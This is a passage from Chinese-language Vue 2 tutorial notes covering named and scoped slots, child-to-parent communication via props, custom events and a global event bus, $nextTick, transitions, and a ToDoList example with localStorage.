     .container,.foot{
       display: flex;
       justify-content: space-around;
     }
     h4{
       text-align: center;
     }
   </style>
   ```

2. 子组件 Category.vue：在`<slot>`标签中指定 `name="xxx"`，区别插入内容的位置

   ```vue
   <template>
     <div class="category">
       <h3>{{title}}分类</h3>
       <!-- 定义一个插槽（挖个坑，等着组件的使用者进行填充） -->
       <slot name="center">我是一些默认值，当使用者没有传递具体结构时，我会出现1</slot>
       <slot name="footer">我是一些默认值，当使用者没有传递具体结构时，我会出现2</slot>
     </div>
   </template>
   
   <script>
     export default {
       name:'Category',
       props:['title']
     }
   </script>
   
   <style scoped>
     .category{
       background-color: skyblue;
       width: 200px;
       height: 300px;
     }
     h3{
       text-align: center;
       background-color: orange;
     }
     video{
       width: 100%;
     }
     img{
       width: 100%;
     }
   </style>
   ```

###### 2.7.2.2.3 作用域插槽 scope

1. 核心：数据在子组件，根据数据生成的结构在父组件

2. 父组件 App.vue：在子组件标签中用`<template>`包裹内容，并指定 `scope`

   1）方式1：`scope="自定义名称"`，如 atguigu，用 atguigu.xxx 或 atguigu.yyy 显示数据

   2）方式2：`scope` 或 `slot-scope="{xxx}"`，解构赋值，直接用xxx显示数据

   ```vue
   <template>
     <div class="container">
       <Category title="游戏">
         <!--方法1：自定义名称随便写，不影响任何元素，只是临时使用 -->
         <template scope="atguigu">
           <ul>
             <li v-for="(g,index) in atguigu.games" :key="index">{{g}}</li>
           </ul>
         </template>
       </Category>
   
       <Category title="游戏2">
         <!--方法2-->
         <template scope="{games}">
           <ol>
             <li style="color:red" v-for="(g,index) in games" :key="index">{{g}}</li>
           </ol>
         </template>
       </Category>
   
       <Category title="游戏3">
         <!--方法2-->
         <template slot-scope="{games}">
           <h4 v-for="(g,index) in games" :key="index">{{g}}</h4>
         </template>
       </Category>
     </div>
   </template>
   
   <script>
   import Category from './components/Category'
   export default {
     name: 'App',
     components: { Category }
   }
   </script>
   
   <style scoped>
   .container,
   .foot {
     display: flex;
     justify-content: space-around;
   }
   h4 {
     text-align: center;
   }
   </style>
   ```

3. 子组件 Category.vue：在`<slot>`中定义 `:xxx="data1", yyy="data2"`，指定作用域和数据

   ```vue
   <template>
     <div class="category">
       <h3>{{title}}分类</h3>
       <!--指定作用域、数据-->
       <slot :games="games" msg="hello">我是默认的一些内容</slot>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Category',  
     props: ['title'],	// 可以承接不同对应的title
     data() {
       return {
         games: ['红色警戒', '穿越火线', '劲舞团', '超级玛丽']
       }
     }
   }
   </script>
   
   <style scoped>
   .category {
     background-color: skyblue;
     width: 200px;
     height: 300px;
   }
   h3 {
     text-align: center;
     background-color: orange;
   }
   video {
     width: 100%;
   }
   img {
     width: 100%;
   }
   </style>
   ```

------

#### 2.7.3 子传父

##### 2.7.3.1 props配置

1. 原理：父组件给子组件传递一个函数，用“`：传递参数名="funcionName"`”绑定，在子组件中用`this.funcionName()`将参数传递给父组件

2. 父组件：App.vue

   1）语法：`<MyList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo" />`

   2）需要在父组件中定义数据todos、函数checkTodo、deleteTodo

   ```vue
   <template>
     <div id="root">
       <div class="todo-container">
         <div class="todo-wrap">
           <!-- 传参：addTodo(在MyHeader中配置props)，传入函数addTodo -->
           <!-- MyHeader功能：添加ToDo -->
           <MyHeader :addTodo="addTodo" />
           <!-- MyList功能：勾选、删除ToDo -->
           <MyList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo" />
           <!-- MyFooter功能：全选、清除已完成ToDo -->
           <MyFooter :todos="todos" :checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo" />
         </div>
       </div>
     </div>
   </template>
   
   <script>
   // 这里之所以没引入MyItem，是因为MyList中已经引入了
   import MyHeader from './components/MyHeader'
   import MyList from './components/MyList'
   import MyFooter from './components/MyFooter.vue'
   
   export default {
     name: 'App',
     components: { MyHeader, MyList, MyFooter },
     data() {
       return {
         //由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中（状态提升）
         todos: [
           { id: '001', title: '抽烟', done: true },
           { id: '002', title: '喝酒', done: false },
           { id: '003', title: '开车', done: true }
         ]
       }
     },
     methods: {
       // 添加
       addTodo(todoObj) {
         this.todos.unshift(todoObj)
       },
       // 勾选
       checkTodo(id) {
         this.todos.forEach(todo => {
           if (todo.id === id) todo.done = !todo.done
         })
       },
       // 删除
       deleteTodo(id) {
         // filter不会改变原数组，只是返回新数组，虽然都叫todos，但是已经不一样了，只要保证id不出问题，不会改变原todos
         this.todos = this.todos.filter(todo => todo.id !== id)
       },
       // 全选
       checkAllTodo(done) {
         this.todos.forEach(todo => {
           todo.done = done
         })
       },
       // 清除已完成
       clearAllTodo() {
         this.todos = this.todos.filter(todo => {
           return !todo.done
         })
       }
     }
   }
   </script>
   ```

3. 子组件：MyList.vue

   1）接收数据：`props: ['todos', 'checkTodo', 'deleteTodo']`，接收父组件传递的todoObj数据、checkTodo函数、deleteTodo函数

   2）注意：MyList也是MyItem的父组件，从App.vue接收到的数据可以进一步传递给孙组件

   ```vue
   <template>
     <ul class="todo-main">
       <!-- 给MyItem传递数据：todoObj、checkTodo、deleteTodo -->
       <MyItem
         v-for="todoObj in todos"
         :key="todoObj.id"
         :todo="todoObj"
         :checkTodo="checkTodo"
         :deleteTodo="deleteTodo"
       />
     </ul>
   </template>
   
   <script>
   import MyItem from './MyItem'
   
   export default {
     name: 'MyList',
     components: { MyItem },
     //声明接收App传递过来的数据，其中todos是自己用的，checkTodo和deleteTodo是给子组件MyItem用的
     props: ['todos', 'checkTodo', 'deleteTodo']
   }
   </script>
   
   <style scoped>
   .todo-main {
     margin-left: 0px;
     border: 1px solid #ddd;
     border-radius: 2px;
     padding: 0px;
   }
   
   .todo-empty {
     height: 40px;
     line-height: 40px;
     border: 1px solid #ddd;
     border-radius: 2px;
     padding-left: 5px;
     margin-top: 10px;
   }
   </style>
   ```

4. 孙组件：MyItem.vue

   1）接收数据：props: ['todo', 'checkTodo', 'deleteTodo']

   2）注意：这里的todo是todos中的逐条数据

   3）使用父组件的方法：this.传递过来的函数名，将子组件中的参数传给父组件，由父组件进行处理

   ```vue
   <template>
     <li>
       <label>
         <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)" />
         <!-- 如下代码也能实现功能，但是不太推荐，因为有点违反原则，因为修改了props -->
         <!-- <input type="checkbox" v-model="todo.done"/> -->
         <span>{{todo.title}}</span>
       </label>
       <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
     </li>
   </template>
   
   <script>
   export default {
     name: 'MyItem',
     // 声明接收todo、checkTodo、deleteTodo
     // 这里的todo接受的是单条数据todoObj
     props: ['todo', 'checkTodo', 'deleteTodo'],
     methods: {
       // 勾选/取消勾选
       handleCheck(id) {
         // 通知父组件App将对应的todo对象的done值取反
         this.checkTodo(id)
       },
       // 删除
       handleDelete(id) {
         if (confirm('确定删除吗？')) {
           // 通知父组件App将对应的todo对象删除
           this.deleteTodo(id)
         }
       }
     }
   }
   </script>
   ```

##### 2.7.3.2 自定义事件

> 适用于子组件传递数据给父组件，事件回调函数留在父组件中。

1. 绑定事件：父组件App.vue

   1）方法1：使用`@`或`v-on`

   ```html
   <Student @自定义事件名称="functionName"/>
   ```

   2）方法2：使用`ref`

   ```html
   <Student ref="ref名称" />
   ```

   * 需要在mounted()中绑定事件

     ```js
     this.$refs.ref名称.$on('自定义事件名称', this.functionName)
     // 也可以绑定一次性事件
     this.$refs.ref名称.$once('自定义事件名称', this.functionName)
     ```

   * 优点：灵活性强，可以实现计时器效果、多重事件效果，而方法一无法实现
   * 回调函数要么配置在methods中，要么用箭头函数，否则this指向会出问题
   * 用ref绑定自定义事件时，会把@后全部看成自定义事件，包括原生JS中的click，如果想使用原生JS事件，需要加`native`

   ```html
   <!--App.vue-->
   <template>
     <div class="app">
       <h1>{{msg}}，学生姓名是:{{studentName}}</h1>
       <School :getSchoolName="getSchoolName" />
       
       <!-- 第1种写法：使用@或v-on -->
       <!-- <Student @atguigu="getStudentName" @demo="m1"/> -->
       <!-- 可以只触发一次 -->
       <!-- <Student @atguigu.once="getStudentName" @demo="m1"/> -->
         
       <!-- 第2种写法：使用ref -->
       <!-- 注意：此方法会将@后的事件全部看做自定义事件，如果想绑定原生JS事件（如click），需要加.native -->
       <Student ref="student" @click.native="show" />
     </div>
   </template>
   
   <script>
   import Student from './components/Student'
   import School from './components/School'
   
   export default {
     name: 'App',
     components: { School, Student },
     data() {
       return {
         msg: '你好啊！',
         studentName: ''
       }
     },
     methods: {
       getSchoolName(name) {
         console.log('App收到了学校名：', name)
       },
       getStudentName(name, ...params) {
         console.log('App收到了学生名：', name, params)
         this.studentName = name
       },
       m1() {
         console.log('demo事件被触发了！')
       },
       show() {
         alert(123)
       }
     },
     // 第2种写法：使用ref，需要挂载
     mounted() {
       this.$refs.student.$on('atguigu', this.getStudentName) //绑定自定义事件
       // this.$refs.student.$once('atguigu',this.getStudentName) //绑定自定义事件（一次性）
     }
   
     // 方法2的优点：灵活性强，可以实现计时器效果、多重事件效果，而方法一无法实现
     /* mounted() {
       setTimeout(() => {
         this.$refs.student.$on('atguigu', this.getStudentName) //绑定自定义事件
       }, 3000)
     } */
   }
   </script>
   
   <style scoped>
   .app {
     background-color: gray;
     padding: 5px;
   }
   </style>
   ```

2. 触发事件：子组件，`this.$emit('自定义事件名称', 数据/多参数）`

3. 解绑事件：子组件

   1）解绑单个事件：`this.$off('自定义事件名称')`

   2）解绑多个事件：`this.$off(['自定义事件名称1','自定义事件名称2'])`

   3）解绑所有自定义事件：`this.$off()`

4. 销毁实例：子组件，`this.$destroy()`，销毁vc实例后，所有绑定在该实例上的事件均被销毁

   ```vue
   <!--Student.vue-->
   <template>
   	<div class="student">
   		<h2>学生姓名：{{name}}</h2>
   		<h2>学生性别：{{sex}}</h2>
   		<h2>当前求和为：{{number}}</h2>
   		<button @click="add">点我number++</button>
   		<button @click="sendStudentlName">把学生名给App</button>
   		<button @click="unbind">解绑atguigu事件</button>
   		<button @click="death">销毁当前Student组件的实例(vc)</button>
   	</div>
   </template>
   
   <script>
   	export default {
   		name:'Student',
   		data() {
   			return {
   				name:'张三',
   				sex:'男',
   				number:0
   			}
   		},
   		methods: {
   			add(){
   				console.log('add回调被调用了')
   				this.number++
   			},
   			sendStudentlName(){
   				// 触发Student组件实例身上的atguigu事件
   				this.$emit('atguigu', this.name, 666, 888, 900)
   			},
   			unbind(){
   				this.$off('atguigu') //解绑一个自定义事件
   				// this.$off(['atguigu','demo']) //解绑多个自定义事件
   				// this.$off() //解绑所有的自定义事件
   			},
   			death(){
   				this.$destroy() //销毁了当前Student组件的实例，销毁后所有Student实例的自定义事件全都不奏效。
   			}
   		},
   	}
   </script>
   
   <style lang="less" scoped>
   	.student{
   		background-color: pink;
   		padding: 5px;
   		margin-top: 30px;
   	}
   </style>
   ```

------

### 2.8 nextTick

1. 语法：`this.$nextTick(回调函数)`

2. 作用：在下一次 DOM 更新结束后执行其指定的回调

3. 场景：当改变数据后，要基于更新后的新DOM进行某些操作时，要在nextTick所指定的回调函数中执行

4. 案例：给todo列表添加“编辑”按钮

   ```js
   // 点击编辑按钮后，输入框才出现，然后才能获取焦点
   this.$nextTick(function() {this.$refs.inputTitle.focus()})
   ```

------

### 2.9 过度与动画

#### 2.9.1 css自定义动画

1. 写css样式：

   1）元素进入的样式

   * `v-enter`：进入的起点
   * `v-enter-active`：进入过程中
   * `v-enter-to`：进入的终点

   2）元素离开的样式

   * `v-leave`：离开的起点
   * `v-leave-active`：离开过程中
   * `v-leave-to`：离开的终点

2. 用`<transition>`包裹要过度的元素，并配置name属性

   * `appear`属性：一打开页面的时候就有动画效果

   ```vue
   <template>
     <div>
       <button @click="isShow = !isShow">显示/隐藏</button>
       <!-- Vue动画标签 -->
       <!-- appear属性：代表一打开页面的时候就有动画效果 -->
       <transition name="hello" appear>
         <h1 v-show="isShow">你好啊！</h1>
       </transition>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Test',
     data() {
       return {
         isShow: true
       }
     }
   }
   </script>
   
   <style scoped>
   h1 {
     background-color: orange;
   }
   /* 进入效果：v-enter-active */
   .hello-enter-active {
     animation: atguigu 0.5s linear;
   }
   /* 离开效果：v-enter-active */
   .hello-leave-active {
     animation: atguigu 0.5s linear reverse;
   }
   @keyframes atguigu {
     from {
       transform: translateX(-100%);
     }
     to {
       transform: translateX(0px);
     }
   }
   </style>
   ```

3. 若有多个元素需要过度，则需要使用：`<transition-group>`，且每个元素都要指定key值

   ```vue
   <template>
     <div>
       <button @click="isShow = !isShow">显示/隐藏</button>
       <!-- transition-group：可以给多个元素加动画，需要加 key -->
       <transition-group name="hello" appear>
         <h1 v-show="!isShow" key="1">你好啊！</h1>
         <h1 v-show="isShow" key="2">尚硅谷！</h1>
       </transition-group>
     </div>
   </template>
   
   <script>
   export default {
     name: 'Test',
     data() {
       return {
         isShow: true
       }
     }
   }
   </script>
   
   <style scoped>
   h1 {
     background-color: orange;
     /* transition: 0.5s linear; */
   }
   /* 用过度效果写 */
   
   /* 进入的起点、离开的终点 */
   .hello-enter,
   .hello-leave-to {
     transform: translateX(-100%);
   }
   /* 动画：时间、运动效果 */
   .hello-enter-active,
   .hello-leave-active {
     transition: 0.5s linear;
   }
   /* 进入的终点、离开的起点 */
   .hello-enter-to,
   .hello-leave {
     transform: translateX(0);
   }
   </style>
   ```

#### 2.9.2 animate.css

1. 第三方动画库：[animate.css](https://animate.style/)

2. 安装：

   ```bash
   npm install animate.css
   ```

3. 使用：在`<transition>`标签中指定 `name="animate__animated xxx"`

   ```vue
   <template>
     <div>
       <button @click="isShow = !isShow">显示/隐藏</button>
       <transition-group
         appear
         name="animate__animated animate__bounce"
         enter-active-class="animate__swing"
         leave-active-class="animate__backOutUp"
       >
         <h1 v-show="!isShow" key="1">你好啊！</h1>
         <h1 v-show="isShow" key="2">尚硅谷！</h1>
       </transition-group>
     </div>
   </template>
   
   <script>
   // npm上一个非常成型的动画库：animate.css
   import 'animate.css'
   export default {
     name: 'Test',
     data() {
       return {
         isShow: true
       }
     }
   }
   </script>
   
   <style scoped>
   h1 {
     background-color: orange;
   }
   </style>
   ```

------

### 2.10 案例：ToDoList

> 第三方库依赖：`nanoid`，用于生成唯一id



#### 2.10.1 应用：props属性

##### 父组件：App.vue

1. 由3个子组件：`MyHeader`、`MyList`、`MyFooter`构成（其中`MyList`还嵌套了一层`MyItem`子组件）

2. 使用props属性为子组件传递函数，并接收由子组件发回的参数

3. 状态提升：列表数据todos之所以放在父组件App.vue中，是因为子组件`MyHeader`、`MyFooter`都在使用

   ```vue
   <template>
     <div id="root">
       <div class="todo-container">
         <div class="todo-wrap">
           <!-- 传参：addTodo(在MyHeader中配置props)，传入函数addTodo -->
           <!-- MyHeader功能：添加ToDo -->
           <MyHeader :addTodo="addTodo" />
           <!-- MyList功能：勾选、删除ToDo -->
           <MyList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo" />
           <!-- MyFooter功能：全选、清除已完成ToDo -->
           <MyFooter :todos="todos" :checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo" />
         </div>
       </div>
     </div>
   </template>
   
   <script>
   // 这里之所以没引入MyItem，是因为MyList中已经引入了
   import MyHeader from './components/MyHeader'
   import MyList from './components/MyList'
   import MyFooter from './components/MyFooter.vue'
   
   export default {
     name: 'App',
     components: { MyHeader, MyList, MyFooter },
     data() {
       return {
         //由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中（状态提升）
         todos: [
           { id: '001', title: '抽烟', done: true },
           { id: '002', title: '喝酒', done: false },
           { id: '003', title: '开车', done: true }
         ]
       }
     },
     methods: {
       // 添加
       addTodo(todoObj) {
         this.todos.unshift(todoObj)
       },
       // 勾选
       checkTodo(id) {
         this.todos.forEach(todo => {
           if (todo.id === id) todo.done = !todo.done
         })
       },
       // 删除
       deleteTodo(id) {
         // filter不会改变原数组，只是返回新数组，虽然都叫todos，但是已经不一样了，只要保证id不出问题，不会改变原todos
         this.todos = this.todos.filter(todo => todo.id !== id)
       },
       // 全选
       checkAllTodo(done) {
         this.todos.forEach(todo => {
           todo.done = done
         })
       },
       // 清除已完成
       clearAllTodo() {
         this.todos = this.todos.filter(todo => {
           return !todo.done
         })
       }
     }
   }
   </script>
   
   <style>
   body {
     background: #fff;
   }
   .btn {
     display: inline-block;
     padding: 4px 12px;
     margin-bottom: 0;
     font-size: 14px;
     line-height: 20px;
     text-align: center;
     vertical-align: middle;
     cursor: pointer;
     box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2), 0 1px 2px rgba(0, 0, 0, 0.05);
     border-radius: 4px;
   }
   .btn-danger {
     color: #fff;
     background-color: #da4f49;
     border: 1px solid #bd362f;
   }
   .btn-danger:hover {
     color: #fff;
     background-color: #bd362f;
   }
   .btn:focus {
     outline: none;
   }
   .todo-container {
     width: 600px;
     margin: 0 auto;
   }
   .todo-container .todo-wrap {
     padding: 10px;
     border: 1px solid #ddd;
     border-radius: 5px;
   }
   </style>
   ```

##### 子组件：MyHeader.vue

1. 作用：提供input输入框，根据用户输入内容添加ToDo

2. 导入：第三方库nanoid，用于给ToDo对象提供唯一值的id

3. props接收父组件传递过来的addToDo函数：`props['addToDo']`

4. add函数：生成todoObj后，用`this.addTodo(todoObj)`将todoObj传递给父组件App.vue

   ```vue
   <template>
     <div class="todo-header">
       <input type="text" placeholder="请输入你的任务名称，按回车键确认" v-model="title" @keyup.enter="add" />
     </div>
   </template>
   
   <script>
   // nanoid是用于生成唯一id的第三方库，使用npm i nanoid安装后导入使用
   import { nanoid } from 'nanoid'
       
   export default {
     name: 'MyHeader',
     // 接收从父组件App传递过来的addTodo函数
     props: ['addTodo'],
     data() {
       return {
         //收集用户输入的title
         title: ''
       }
     },
     methods: {
       // js原生事件方法获取输入框的值：e.target
       /* add(e){
         console.log(e.target.value)
       }, */
   
       add() {
         // 校验数据：需要输入非空数据
         if (!this.title.trim()) return alert('输入不能为空')
         // 将用户的输入包装成一个todo对象
         const todoObj = { id: nanoid(), title: this.title, done: false }
         // 子传父通信：通知父组件App添加一个todo对象
         this.addTodo(todoObj)
         // 清空输入
         this.title = ''
       }
     }
   }
   </script>
   
   <style scoped>
   .todo-header input {
     width: 560px;
     height: 28px;
     font-size: 14px;
     border: 1px solid #ccc;
     border-radius: 4px;
     padding: 4px 7px;
   }
   
   .todo-header input:focus {
     outline: none;
     border-color: rgba(82, 168, 236, 0.8);
     box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075), 0 0 8px rgba(82, 168, 236, 0.6);
   }
   </style>
   ```

##### 子组件：MyList.vue

1. 作用：中转，里面嵌套孙组件MyItem，遍历App传递过来的`todos`，形成列表

2. props接受父组件App的数据：`props: ['todos', 'checkTodo', 'deleteTodo']`

   1）todos：数据对象，用于遍历形成列表

   2）checkTodo：勾选/取消勾选函数，要继续传递给孙组件`MyItem`

   3）deleteTodo：删除函数，要继续传递给孙组件`MyItem`

3. props给孙组件`MyItem`传递数据：

   1）todo：todoObj单条数据

   2）checkTodo：checkTodo函数

   3）deleteTodo：deleteTodo函数

   ```vue
   <template>
     <ul class="todo-main">
       <!-- 给MyItem传递数据：todoObj、checkTodo、deleteTodo -->
       <MyItem
         v-for="todoObj in todos"
         :key="todoObj.id"
         :todo="todoObj"
         :checkTodo="checkTodo"
         :deleteTodo="deleteTodo"
       />
     </ul>
   </template>
   
   <script>
   import MyItem from './MyItem'
   
   export default {
     name: 'MyList',
     components: { MyItem },
     //声明接收App传递过来的数据，其中todos是自己用的，checkTodo和deleteTodo是给子组件MyItem用的
     props: ['todos', 'checkTodo', 'deleteTodo']
   }
   </script>
   
   <style scoped>
   .todo-main {
     margin-left: 0px;
     border: 1px solid #ddd;
     border-radius: 2px;
     padding: 0px;
   }
   
   .todo-empty {
     height: 40px;
     line-height: 40px;
     border: 1px solid #ddd;
     border-radius: 2px;
     padding-left: 5px;
     margin-top: 10px;
   }
   </style>
   ```

##### 孙组件：MyItem.vue

1. 作用：对单条数据todoObj进行勾选、删除操作

2. props接收MyList-->App传递来的数据（层层穿透）：`props: ['todo', 'checkTodo', 'deleteTodo']`

3. handleCheck函数：传递勾选的id，再用`this.checkTodo(id)`将id传递给父组件App

4. handleDelete函数：传递勾选的id，再用`this.deleteTodo(id)`将id传递给父组件App

   ```vue
   <template>
     <li>
       <label>
         <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)" />
         <!-- 如下代码也能实现功能，但是不太推荐，因为有点违反原则，因为修改了props -->
         <!-- <input type="checkbox" v-model="todo.done"/> -->
         <span>{{todo.title}}</span>
       </label>
       <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
     </li>
   </template>
   
   <script>
   export default {
     name: 'MyItem',
     // 声明接收todo、checkTodo、deleteTodo
     // 这里的todo接受的是单条数据todoObj
     props: ['todo', 'checkTodo', 'deleteTodo'],
     methods: {
       // 勾选/取消勾选
       handleCheck(id) {
         // 通知父组件App将对应的todo对象的done值取反
         this.checkTodo(id)
       },
       // 删除
       handleDelete(id) {
         if (confirm('确定删除吗？')) {
           // 通知父组件App将对应的todo对象删除
           this.deleteTodo(id)
         }
       }
     }
   }
   </script>
   
   <style scoped>
   li {
     list-style: none;
     height: 36px;
     line-height: 36px;
     padding: 0 5px;
     border-bottom: 1px solid #ddd;
   }
   li label {
     /* float: left; */
     cursor: pointer;
   }
   li label li input {
     vertical-align: middle;
     margin-right: 6px;
     position: relative;
     top: -1px;
   }
   li button {
     float: right;
     display: none;
     margin-top: 3px;
   }
   li:before {
     content: initial;
   }
   li:last-child {
     border-bottom: none;
   }
   li:hover {
     background-color: #ddd;
   }
   li:hover button {
     display: block;
   }
   </style>
   ```

##### 子组件：MyFooter.vue

1. 作用：底部计数栏、全选/全不选、清除已完成任务

2. props接收父组件App传递来的数据：`props: ['todo', 'checkTodo', 'deleteTodo']`

3. 计算属性isAll：

   1）get()：控制是否全选

   2）set(value)：控制当其被改变时，用`this.checkAllTodo(value)`通知父组件App将todos中所有done属性标记为用户传递过来的value

4. clearAll函数：点击按钮时，调用`this.clearAllTodo()`通知父组件App清除已完成todos

   ```vue
   <template>
     <!-- v-show控制的是diplay，如果total为0，则不展示footer计数栏 -->
     <div class="todo-footer" v-show="total">
       <label>
         <!-- 全选框：方法1：用checkAll函数改变checked状态，比较麻烦 -->
         <!-- <input type="checkbox" :checked="isAll" @change="checkAll"/> -->
         
         <!-- 全选框：方法2：巧用计算属性isAll，无需再另外声明函数 -->
         <input type="checkbox" v-model="isAll" />
       </label>
       <span>
         <span>已完成{{doneTotal}}</span>
         / 全部{{total}}
       </span>
       <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
     </div>
   </template>
   
   <script>
   export default {
     name: 'MyFooter',
     props: ['todos', 'checkAllTodo', 'clearAllTodo'],
     computed: {
       // 总数
       total() {
         return this.todos.length
       },
       // 已完成数
       doneTotal() {
         // 用reduce方法做条件统计（有几条数据调用几次），pre是累计器（初始值为0），todo是当前值
         return this.todos.reduce((pre, todo) => pre + (todo.done ? 1 : 0), 0)
       },
       // 注意：isAll计算属性是由total、doneTotal这两个计算属性动态计算得来的（允许套娃）
       // 控制全选框（bool类型）
       isAll: {
         //全选框是否勾选（如果没有待完成事件时，取消勾选）
         get() {
           return this.doneTotal === this.total && this.total > 0
         },
         // isAll被修改时set被调用（即checkbox选项框被点击时）
         set(value) {
           // 通知父组件App将todos中所有done属性标记为用户传递过来的value（true或false）
           this.checkAllTodo(value)
         }
       }
     },
     methods: {
       // 全选框：方法1：用checkAll函数改变checked状态，比较麻烦
       /* checkAll(e){
   		  this.checkAllTodo(e.target.checked)
   		} */
        
       // 清空所有已完成
       clearAll() {
         // 通知父组件App清除所有todos.done为true的数据
         this.clearAllTodo()
       }
     }
   }
   </script>
   
   <style scoped>
   .todo-footer {
     height: 40px;
     line-height: 40px;
     padding-left: 6px;
     margin-top: 5px;
   }
   .todo-footer label {
     display: inline-block;
     margin-right: 20px;
     cursor: pointer;
   }
   .todo-footer label input {
     position: relative;
     top: -1px;
     vertical-align: middle;
     margin-right: 5px;
   }
   .todo-footer button {
     float: right;
     margin-top: 5px;
   }
   </style>
   ```

##### 入口文件：main.js

1. 正常写法：

   ```js
   //引入Vue
   import Vue from 'vue'
   //引入App
   import App from './App.vue'
   //关闭Vue的生产提示
   Vue.config.productionTip = false
   
   //创建vm
   new Vue({
     el: '#app',
     render: (h) => h(App),
   })
   ```

------

#### 2.10.2 应用：本地储存

> 需求：将父组件中定义的todos数组改造成从本地储存`localStorage`中读取、储存

##### 父组件：App.vue

1. 将data()中的todos数组改为从本地储存localStorage取数据，如果前期无数据，则初始化为空数组`[]`

   ```js
   data() {
     return {
       // 初始化时，如果没有数据，需要将todos设置为一个空数组，否则会变成null
       todos: JSON.parse(localStorage.getItem('todos')) || []
     }
   },
   ```

2. 监视属性watch：监视todos，一旦变化，就会触发localStorage的变化

   ```js
   // 使用watch实现，只要todos变化了，就会触发localStorage的变化
   watch: {
     todos: {
       // 必须用深度监视，否则勾选后checked属性不发生变化
       deep: true,
       handler(value) {
         localStorage.setItem('todos', JSON.stringify(value))
       }
     }
   }
   ```

------

#### 2.10.3 应用：自定义事件

> 需求：将`addTodo`、`checkAllTodo`、`clearAllTodo`函数由props传递改成自定义事件，影响：App、MyHeader、MyFooter

##### 父组件：App.vue

1. 绑定事件：使用`@`或`v-on`

   ```vue
   <template>
     <div id="root">
       <div class="todo-container">
         <div class="todo-wrap">
           <!-- 注意：所有父给子传递函数的地方，都可以改造成自定义事件的模式 -->
           <!-- <MyHeader :addTodo="addTodo" /> -->
           <MyHeader @addTodo="addTodo" />
           <MyList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo" />
           <!-- <MyFooter :todos="todos" :checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo" /> -->
           <MyFooter :todos="todos" @checkAllTodo="checkAllTodo" @clearAllTodo="clearAllTodo" />
         </div>
       </div>
     </div>
   </template>
   ```

##### 子组件：MyHeader.vue

1. 无需再使用props接受父组件传递的addTodo函数

2. 在add()方法中用 `$emit` 触发父组件App中的addTodo函数

   ```js
   export default {
     name: 'MyHeader',
     // 无需再接收addTodo
     // props: ['addTodo'],
     data() {
       return {
         title: ''
       }
     },
     methods: {
       add() {
         if (!this.title.trim()) return alert('输入不能为空')
         const todoObj = { id: nanoid(), title: this.title, done: false }
         // 子传父通信（旧方法）
         // this.addTodo(todoObj)
         
         // 触发事件：$emit，通知App组件去添加一个todo对象
         this.$emit('addTodo', todoObj, 1, 2, 3)
         this.title = ''
       }
     }
   }
   ```

##### 子组件：MyFooter.vue

1. 无需再使用props接受父组件传递的checkTodo、deleteTodo函数

2. 将checkAllTodo、clearAllTodo改造为`this.$emit()`模式

   ```vue
   <script>
   export default {
     name: 'MyFooter',
     props: ['todos'], // 无需再接收checkAllTodo、clearAllTodo
     computed: {
       //总数
       total() {
         return this.todos.length
       },
       doneTotal() {
         return this.todos.reduce((pre, todo) => pre + (todo.done ? 1 : 0), 0)
       },
       isAll: {
         get() {
           return this.doneTotal === this.total && this.total > 0
         },
         set(value) {
           // 子传父通信（旧方法）
           // this.checkAllTodo(value)
           
           // 触发事件：$emit
           this.$emit('checkAllTodo', value)
         }
       }
     },
     methods: {
       clearAll() {
         // 子传父通信（旧方法）
         // this.clearAllTodo()
         
         // 触发事件：$emit
         this.$emit('clearAllTodo')
       }
     }
   }
   </script>
   ```

------

#### 2.10.4 应用：全局事件总线

> 需求：将`checkTodo`、`deleteTodo`函数由props属性传递改造成全局事件总线，影响：main.js、App、MyList、MyItem

##### 入口文件：main.js

1. 设置全局事件总线

   ```js
   //引入Vue
   import Vue from 'vue'
   //引入App
   import App from './App.vue'
   //关闭Vue的生产提示
   Vue.config.productionTip = false
   
   //创建vm
   new Vue({
   	el:'#app',
   	render: h => h(App),
       // 设置全局事件总线
   	beforeCreate() {
   		Vue.prototype.$bus = this
   	},
   })
   ```

##### 父组件：App.vue

1. 接收数据：在`mounted()`中使用`$bus.$on`挂载事件

2. 解绑事件：在beforeDestory()中使用`$bus.$off`释放事件名称

   ```html
   <!-- 使用全局事件总线，绑定checkTodo 和 deleteTodo函数，无需再使用props属性及自定义事件-->
   <!--<MyList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo" />-->
   <MyList :todos="todos" />
   ```

   ```js
   mounted() {
     this.$bus.$on('checkTodo', this.checkTodo)
     this.$bus.$on('deleteTodo', this.deleteTodo)
   },
   beforeDestroy() {
     this.$bus.$off('checkTodo')
     this.$bus.$off('deleteTodo')
   }
   ```

##### 子组件：MyList.vue

1. 无需再用 props 给 MyItem 孙组件传递todo、checkTodo、deleteTodo

2. 无需再用 props 接受父组件传递过来的 checkTodo、deleteTodo 函数

   ```vue
   <template>
     <ul class="todo-main">
       <!-- 无需再用 props 给 MyItem 孙组件传递todo、checkTodo、deleteTodo -->
       <!-- <MyItem v-for="todoObj in todos" :key="todoObj.id" :todo="todoObj" :checkTodo="checkTodo" :deleteTodo="deleteTodo" /> -->
       <MyItem v-for="todoObj in todos" :key="todoObj.id" :todo="todoObj" />
     </ul>
   </template>
   
   <script>
   import MyItem from './MyItem'
   
   export default {
     name: 'MyList',
     components: { MyItem },
     props: ['todos']	// 无需再接收checkTodo、deleteTodo
   }
   </script>
   
   <style scoped>
   /*main*/
   .todo-main {
     margin-left: 0px;
     border: 1px solid #ddd;
     border-radius: 2px;
     padding: 0px;
   }
   
   .todo-empty {
     height: 40px;
     line-height: 40px;
     border: 1px solid #ddd;
     border-radius: 2px;
     padding-left: 5px;
     margin-top: 10px;
   }
   </style>
   ```

##### 孙组件：MyItem.vue

